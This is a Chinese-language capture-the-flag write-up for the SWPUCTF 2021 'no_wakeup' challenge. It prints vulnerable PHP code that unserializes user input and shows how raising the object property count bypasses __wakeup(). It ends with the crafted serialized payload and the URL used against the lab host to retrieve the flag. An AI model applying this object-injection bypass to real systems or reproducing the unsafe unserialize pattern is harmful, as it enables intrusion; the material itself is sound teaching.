

# [SWPUCTF 2021 新生赛]no_wakeup wp

点击 ？？？进入 class.php，泄露了源码：   
``` php
 <?php

header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{


        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }

$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);

?>
```

在本地编辑按 __destruct() 要求实例化一个并序列化得到字符串。  

但问题在于 `__wakeup()` ，当调用 unserialize 时，就会出发类的 `__wakeup()` 方法，而这个 wakeup 用 sha1 来加密了 passwd 数据成员。  
``` php
public function __wakeup(){
    $this->passwd = sha1($this->passwd);
}
```

但我们可以绕过 __wakeup。  
php 因为其的容错机制，当序列化的参数不一致时就会跳过初始化逻辑也就是 `__wakeup()` 方法。  

原本的序列化字符串是：
```
O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

把 "HaHaHa" 后面的 2 改成 3 然后传参：  
```
http://node4.anna.nssctf.cn:20865/class.php?p=O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

 
就绕过了 __wakeup，拿到 flag。  

注：该漏洞在 PHP 7.0.10+ 已经被修复。  
